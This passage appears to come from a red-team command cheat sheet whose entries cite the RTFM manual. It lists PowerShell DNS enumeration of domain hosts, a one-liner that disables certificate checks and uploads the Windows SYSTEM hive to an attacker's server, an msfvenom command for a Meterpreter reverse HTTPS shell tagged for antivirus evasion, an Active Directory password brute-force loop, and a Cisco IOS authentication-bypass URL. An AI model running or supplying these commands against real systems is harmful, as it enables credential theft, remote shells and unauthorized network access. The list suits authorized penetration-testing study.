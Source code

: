 https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 38. list hostname and ip for domain pc's
```
Get-WmiObject -ComputerName [DC] -Namesapce root\microsoftDNS -class MicrosoftDNS_ResourceRecord -Filter "domainname='[domain]' | select textrepresentation
```
**- enumeration,dns,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 39. Powershell upload file VIA post, script must write this out
```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback{$true}$server="[$ip]/[script]";$filepath="c:/temp/SYSTEM";$http = new-object System.Net.Webclient; $response = $http.uploadFile($server,$filepath);"
```
**- networking,files,interesting,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 40. powershell shell
```
msfvenom -p Windows/meterpreter/reverse_https -f psh -a x86 LHOST=[lhost] LPORT=[lport] audit.ps1
```
**- metasploit,av evasion,powershell**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 41. Simple powershell brute force, user input list, checks the password 'password'
```
Function Test-ADAuthentication {param($username,$password);echo "$username $password";(new-object directoryservices.directoryentry"",$username,$password).psbase.name -ne $null}; forEach ($userName in Get-Content "user_logins.txt"){Test-ADAuthentication $userName password >> test4.txt;}
```
**- loop,brute,Windows,powershell**
#### References:

https://msdn.microsoft.com/en-us/library/system.directoryservices.directoryentry(v=vs.110).aspx
http://serverfault.com/questions/596602/powershell-test-user-credentials-in-ad-with-password-reset
__________
### 42. Bypass auth on ios 11.2-12.2
```
http://[ip]/level/56/exec/show/config
```
**- cisco,interesting,web application,remote command shell**
#### References:
